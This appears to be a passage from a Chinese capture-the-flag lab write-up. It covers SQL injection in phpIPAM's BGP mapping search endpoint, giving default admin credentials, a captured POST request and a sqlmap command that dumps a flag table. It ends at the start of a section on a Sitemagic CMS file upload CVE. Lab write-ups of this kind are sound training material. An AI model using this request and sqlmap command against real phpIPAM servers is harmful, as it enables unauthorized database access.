/admin admin/admin888

```
POST /app/admin/routing/edit-bgp-mapping-search.php HTTP/1.1
Host: xxx.com
Content-Length: 190
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://xxx.com
Referer: http://xxx.com/index.php?page=administration&section=sections
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.617032228.1689668529; _ga_J1DQF09WZC=GS1.2.1689668531.1.0.1689668531.0.0.0; phpipam=lv3pkc2n1qmo98cb33cj8jc4h6; table-page-size=50; search_parameters={"addresses":"on","subnets":"on","vlans":"on","vrf":"off","pstn":"off","circuits":"on","customers":"off"}
Connection: close

subnet=1&bgp_id=1
```

把验证信息改成自己的

```
sqlmap -r 1.txt  -D phpipam -T flag -C flag --dump --batch
```

![image-20230720100419448](%E9%9D%B6%E5%9C%BA.assets/image-20230720100419448.png)

## CVE-2019-9042 Sitemagic CMS v4.4 任意文件上传漏洞

*靶标介绍：*
